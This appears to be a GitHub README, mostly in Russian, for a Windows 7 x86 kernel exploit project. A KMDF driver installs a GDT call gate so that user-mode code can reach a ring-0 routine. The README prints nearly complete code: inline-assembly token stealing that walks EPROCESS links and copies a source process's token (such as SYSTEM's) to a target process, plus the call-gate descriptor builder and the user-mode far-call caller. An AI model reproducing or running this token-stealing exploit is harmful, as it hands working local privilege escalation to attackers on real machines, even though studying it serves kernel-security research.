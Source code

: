 # GDT CallGate. Kernel exploit development

## Задача - steal token from source process to target process

+ подготовить exploit и функцию для ring-0 callgate вызова (kernel-mode)

```C++
DWORD steal_token(DWORD TARGET_PID, DWORD SOURCE_PID)
{
 char res = 0;
#if defined(DEBUG)
 DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_ERROR_LEVEL, "CallGate - TARGET_PID: %d | SOURCE_PID: %d\n", TARGET_PID, SOURCE_PID);
#endif
 // TOKEN STEALER X86 ASM
 __asm
 {
 Start:
  pushad
   mov eax, fs : [KTHREAD_OFFSET]
   mov eax, [eax + EPROCESS_OFFSET]
   mov ecx, eax                            // Copy current _EPROCESS structure
   mov ebx, [eax + TOKEN_OFFSET]           // Copy current nt!_EPROCESS.Token
   mov edx, SOURCE_PID                     // Process PID = 0x4
   SearchSystemPID :
  mov eax, [eax + FLINK_OFFSET]    // Get nt!_EPROCESS.ActiveProcessLinks.Flink
   sub eax, FLINK_OFFSET
   cmp[eax + PID_OFFSET], edx              // Get nt!_EPROCESS.UniqueProcessId
   jne SearchSystemPID
   mov edx, [eax + TOKEN_OFFSET]           // Get SYSTEM process nt!_EPROCESS.Token
   mov esi, eax
   SearchProcessPID :
  mov ecx, eax
   mov edi, [eax + PID_OFFSET]
   mov eax, [eax + FLINK_OFFSET]   //ebx - Next _EPROCESS
   sub eax, FLINK_OFFSET
   cmp eax, esi
   jz Stop
   cmp edi, [TARGET_PID]
   jz SetToken
   jmp SearchProcessPID
   SetToken :
  mov[ecx + TOKEN_OFFSET], edx
   mov[res], 1
   Stop :
   popad
 }
 return res;
}

// INPUT STACK PARAMS:
//  SOURCE_PID  [esp+12]
// TARGET_PID  [esp+8]
// CS SELECTOR  [esp+4]
// RETADDR   [esp]
__declspec(naked) ULONG_PTR call_gate_proc() {
 __asm
 {
  // prolog
  push ebp
  mov ebp, esp

  push fs     // Save the value of FS
  mov ax, 0x30   // Set FS to kernel mode value
  mov fs, ax

  mov eax, [ebp + 16]  // SOURCE_PID
  push eax
  mov eax, [ebp + 12]  // TARGET_PID
  push eax 
  call steal_token

  pop fs     // Restore the value of FS

  // epilog
  mov esp, ebp
  pop ebp
  retf 8
 }
}
```

+ сформировать callgate descriptor с прямым вызовом exploit'а с параметрами из ring-0 в ring-3 (kernel-mode)

```C++
CALL_GATE_DESCRIPTOR build_call_gate_descriptor(PVOID entryPoint) {
 ULONG address = (ULONG)entryPoint;
 CALL_GATE_DESCRIPTOR callGateDescr = { 0 };

 callGateDescr.offset_00_15 = 0x0000ffff & address;    //Offset(specifies the procedure’s entry - point within its code - segment)
 address = address >> 16;
 callGateDescr.offset_16_31 = 0x0000ffff & address;    //Offset (specifies the procedure’s entry-point within its code-segment)
 callGateDescr.selector = 0x8;         //Code-selector (specifies memory-segment containing procedure code)
 callGateDescr.argCount = 0x2;         //Parameter count (specifies how many parameter-values will be copied)        
 callGateDescr.type = 0xC;          //Gate - Type('0x4' means a 16 - bit call - gate, '0xC' means a 32 - bit call - gate)
 callGateDescr.dpl = 0x3;          //DPL = Descriptor Privilege Level (ring-0, ring-1, ring-2, ring-3) 
 callGateDescr.pFlag = 0x1;          //P = present (1 = yes, 0 = no)

 //         P|DLP|S  type  zeros  params
 //callGateDescr(flags only) =    1110   1100  0000   0001b   <=> 0xec02

 return callGateDescr;
}
```

+ сформировать селектор по индексу callgate descriptor'а в GDT (kernel-mode)

```C++
  // create selector
  /*
   Selectors
   In real mode, the segment registers (CS, DS, ES, SS, FS, GS) specify a real mode segment. And you can put anything to them, no matter where it points. And you can read and write and execute from that segment. In protected mode, these registers are loaded with selectors.
   Selector
   Bit 0 - 1 : RPL
   Requested Protection Level. It must be equal or less privileged than the segments DPL.
   Bit 2 : TI
   If this bit is set to 1, the selector selects an entry from the LDT instead of the GDT (see below for LDT).
   Bits 3 - 15:
   Zero based index to the table (GDT or LDT).
  */
  selector = gdt_index << 3;
  selector |= 3;   // set TI = 0, RPL to 3 => allow access to this selector from ring-3
```

+ сделать вызов callgate selector'а из ring-3 (user-mode)

```C++
int main()
{
 WORD farcall[] = { 0, 0, 0xab };
 BYTE result = 0;

 DWORD TARGET_PID, SOURCE_PID;

 std::cout << "SOURCE_PID (dec): ";
 scanf_s("%d", &SOURCE_PID);
 std::cout << std::endl << "TARGET_PID (dec): ";
 scanf_s("%d", &TARGET_PID);
 std::cout << std::endl;

 __asm
 {
  push[SOURCE_PID]
  push[TARGET_PID]
  call fword ptr[farcall]
  mov[result], al
 }

 if (result) std::cout << "Token has been stolen!" << std::endl;
 else std::cout << "Error!" << std::endl;
}
```

+ проверить смену token'а

## caller

+ содержит код программы вызова callgate selector'а из ring-3 (user-mode)

## callgate_driver

+ содержит код KMDF драйвера для работы в ring-0 (kernel-mode)

## bin

+ Caller.exe - compiled caller
+ CallGate.sys - compiled driver
+ CallGate.cer - test driver's sing public key

## Для проверки корректной работы использовались

+ ```Windows 7 SP1 x86 6.1.7601.24545```
+ ```Dbgview```
+ ```procexp```
+ ```OSR driver loader```

## Пример работы

![alt text](/img/callgate.gif)

## Ссылки

+ <https://rayanfam.com/topics/call-gates-ring-transitioning-in-ia-32-mode/>
+ <https://www.codeproject.com/Articles/45788/The-Real-Protected-Long-mode-assembly-tutorial-for>
+ <https://github.com/SinaKarvandi/IA32-CALL-GATES/tree/master>
+ <https://github.com/therealdreg/cgaty>
